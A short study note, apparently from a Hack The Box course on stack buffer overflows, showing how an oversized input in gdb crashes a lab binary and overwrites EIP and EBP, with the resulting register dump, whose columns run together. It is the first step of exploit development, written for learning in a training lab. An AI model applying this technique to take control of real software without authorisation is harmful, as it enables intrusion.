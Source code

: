 ```yaml
---
title: "Take Control of EIP"
tags:
  - htb
  - stack-overflow
programming-languagues:
created: 2022-07-12
---
```

# Take Control of EIP
---
This is part of a guide that you can find [here](notes/general/htb-stack-based-overflow-linux.md).

We need to get the **instruction pointer** (**EIP**) under control so we can tell it to which address to jump. So it should point to some **shellcode** for example.

We first check for overflow:

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

If we insert 1200 "`U`"s (hex "`55`") as input, we can see from the register information that we have overwritten the `EIP`. As far as we know, the `EIP` points to the next instruction to be executed.

```
(gdb) info registers 

eax            0x11
ecx            0xffffd6c0-10560
edx            0xffffd06f-12177
ebx            0x555555551431655765
esp            0xffffcfd00xffffcfd0
ebp            0x555555550x55555555# <---- EBP overwritten
esi            0xf7fb5000-134524928
edi            0x00
eip            0x555555550x55555555# <---- EIP overwritten
eflags         0x10286[ PF SF IF RF ]
cs             0x2335
ss             0x2b43
ds             0x2b43
es             0x2b43
fs             0x00
gs             0x6399
```

